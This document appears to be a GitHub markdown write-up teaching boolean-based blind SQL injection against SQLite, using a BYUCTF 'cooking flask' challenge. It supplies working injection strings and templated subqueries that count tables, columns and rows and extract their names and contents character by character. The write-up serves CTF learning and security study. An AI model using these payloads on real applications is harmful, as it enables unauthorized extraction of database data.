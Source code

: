 ------------------

### Exploiting sqlite3

------------------

### Blind SQLite3 exfiltration

-----------------

- The method below is `Boolean based` which is `True` or `False` e.g If a statement is true, return this data and if false, do not return this query.
- This approach will be explained with `BYUCTF` `cooking flask` web challenge.The `tag` query is vulnerable-:

![image](https://github.com/user-attachments/assets/0f4fe54e-c1ed-4e87-a3d1-ccdfc717b127)

- Now let's move over to burp suite to understand the logic.If I send a statement `Italian%') and 1=1--+`,we get the data for `Italian` back because there is a column `Italian` and `1` is equals to `1` which is a true statement.You'll notice in the response tab that we got the data for `Italian`.

![image](https://github.com/user-attachments/assets/38f49ef1-6e3e-4f5a-8387-a4a32f74d597)

- Now, let us pass a false statement like `Italian%') and 1=2--+`, we didn't get any result.

![image](https://github.com/user-attachments/assets/d7610063-122a-4ba4-b85f-be22488c55c9)

- That's just the basis of Boolean based injection, if our statement is right,we'll get a positive result and if the statement is false, we'll get a negative result.

-----------------

### Counting the amount of tables

------------------

- The count() function in sql is used to count the amount of stuffs in a database. Digit will be placed after equals to `=`.`Count()` can count amount of rows,column and tables in a dataabase.

```sql
(SELECT count(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' ) = {number}
```

-------------------

### Tables length

--------------------

- Use the length() function,the code below is used to count the character length of table.I added `LIMIT` and `OFFSET` because we have to limit the table to a single one.If offset is set to `0` and limit is set to `1`, the first row will be read, to read the others, you just need to increment it.`Offset-:`1 and `limit` to 2.

```sql
(SELECT length(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name not like 'sqlite_%' LIMIT 1 OFFSET 0) = {number}
```

---------------------

### Reading the tables's characters

----------------------

- The functions `hex()` and `substr()` are useful in this scenario.You limit the rows and column with limit and offset and select the characters with `substr()`,the substr requires 3 arguments `(tbl_name,{characters'limit},{character's start})` which is hexed with `hex()` and checked if it is equal to a character that is hexed.The second argument of substr should be incremented only while the third argument is set to `1`.

```sqlite
(SELECT hex(substr(tbl_name,{character's end},{character's stop})) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit {i+1} offset {i}) = hex('{char}')--+"
```

-------------------

### Counting Columns-:

-------------------

- Query-:`count()`

```sqlite3
(SELECT count(name) FROM PRAGMA_TABLE_INFO('{table_name}'))={number}
```

-----------------------

### Column's length

-----------------------

- Query-:`length()`

```sqlite3
(SELECT+length(name)+FROM+PRAGMA_TABLE_INFO('{table_name}')+LIMIT+{end}+OFFSET+{start})={number}
```

------------------------

### Column's characters

------------------------

- Welp,limit and offset requires the same logic used for tables but `substr()`'s second argument should be set to `1` and the third one should incremented.`WHEN` holds the characters found e.g substr(name,1,4) indicates you are looking for the fourth character, so `WHEN` should be `fla+{new_character}`.

```sqlite3
(select+case+substr(name,1,{digit+1})+WHEN+'{character}'+THEN+1+ELSE+1/0+END+FROM+PRAGMA_TABLE_INFO('{table_name}') LIMIT {i+1} OFFSET {i})
```

---------------------------

### COUNTING THE ROWS IN A COLUMN

--------------------

- You still have to use count() to achieve this.

```sqlite3
(SELECT+count({column_name})+FROM+{table_name})={digit}
```

--------------------

### COUNTING THE CHARACTER LENGTH OF A ROW

---------------------

- OFFSET AND LIMIT does the same job and limit the rows to one.It still requires length like tables and columns.

```sqlite3
(SELECT+length({column_name})+FROM+{table_name} LIMIT {length+1} OFFSET {length})={i}
```

